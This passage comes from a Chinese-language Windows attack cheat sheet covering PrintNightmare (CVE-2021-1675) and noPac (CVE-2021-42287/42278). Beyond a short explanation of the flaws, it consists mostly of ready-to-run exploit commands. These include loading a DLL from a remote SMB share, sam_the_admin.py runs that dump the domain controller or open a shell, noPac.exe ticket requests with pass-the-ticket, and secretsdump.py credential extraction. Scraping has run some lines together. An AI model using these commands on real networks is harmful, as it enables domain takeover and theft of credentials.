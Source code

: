 ### （向右滑动、查看更多）

  
适用：windows10（16-21） windows server （08-19）
详细适用范围：http://k8gege.org/p/CVE-2021-1675.htmlhttps://github.com/cube0x0/CVE-2021-1675  
作用： **提权** 使用rpcdump.py扫描潜在的易受攻击的主机，如果它返回下面其中的一个值，则它可能是易受攻击的。

    
          *   *   *   * 
    
    
    
    pcdump.py @192.168.1.10 | egrep 'MS-RPRN|MS-PAR'  
    Protocol: [MS-PAR]: Print System Asynchronous Remote Protocol Protocol: [MS-RPRN]: Print System Remote Protocol

### （向右滑动、查看更多）

  

``

    
          *   * 
    
    
    
    ./CVE-2021-1675.py hackit.local/domain_user:Pass123@192.168.1.10 '\\192.168.1.215\smb\addCube.dll'./CVE-2021-1675.py hackit.local/domain_user:Pass123@192.168.1.10 'C:\addCube.dll'

### （向右滑动、查看更多）

``

##  

##  **  0x07NOpac(CVE-2021-42287&&CVE-2021-42278) **

  
适用：windows 2008-2022  
原理：CVE-2021-42278是一个安全绕过漏洞，允许通过修改机器账户的
SAMAccountName属性来冒充域控制器。与标准用户账户相比，机器账户的名称末尾附加了“$”符号，但实际中，AD
并没有验证域内机器账户中是否具有“$"，导致机器账户可以被假冒。  
CVE-2021-42287是影响Kerberos特权属性证书 (PAC)的安全绕过漏洞，允许通过假冒域控制器，使密钥分发中心(KDC)创建高权限票据。  
根据认证Kerberos
协议，在请求服务票证前需要先签发TGT（票据授权凭证)。但是，当为活动目录中不存在的账户请求服务票证时，密钥分发中心(KDC)将在该账户名上附加“$”符号进行搜索。将这一行为与CVE-2021-42278结合，测试人员可以实现
**域内权限提升。**

  *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
     python3 sam_the_admin.py hack.com/test:Aa123456 -dc-ip 192.168.11.250 -debugpython3 sam_the_admin.py hack.com/test:Aa123456 -dc-ip 192.168.11.250 -dump -debug #dcsyncpython3 sam_the_admin.py hack.com/test:Aa123456 -dc-ip 192.168.11.250 -shell -debug  
    https://github.com/WazeHell/sam-the-adminhttps://github.com/Ridter/noPachttps://github.com/cube0x0/noPac#https://github.com/cube0x0/noPac#检测漏洞noPac.exe scan -domain qaq.org -user admin -pass 'Aa123456'#利用漏请求域管用户 cifs服务ST,用于访问共享noPac.exe -domain qaq.org -user admin -pass 'Aa123456' /dc test5-2012.qaq.org /mAccount saulgoodman /mPassword passW0rd /service cifs /ptt#利用漏洞请求域管用户 ldap服务ST,用于dcsyncnoPac.exe -domain qaq.org -user admin -pass 'Aa123456' /dc test5-2012.qaq.org /mAccount saulgoodman /mPassword passW0rd /service ldap /ptt#利用漏洞请求域管用户HOST/RPCSS服务ST，用于执行命令。可远程利用noPac.exe -domain qaq.org -user admin -pass 'Aa123456' /dc test5-2012.qaq.org /mAccount saulgoodman /mPassword passW0rd /service HOST /pttnoPac.exe -domain qaq.org -user admin -pass 'Aa123456' /dc test5-2012.qaq.org /mAccount saulgoodman /mPassword passW0rd /service RPCSS /ptt#远程利用导出注入LDAP dcsync，先用MIMIkatz导出票据python ticket_converter.py ticket.kirbi ticket.ccache #kirbi转换为impacket ccache票据格式export KRB5CCNAME=ticket.ccachepython secretsdump.py -k -no-pass test5-2012.qaq.org -just-dc
    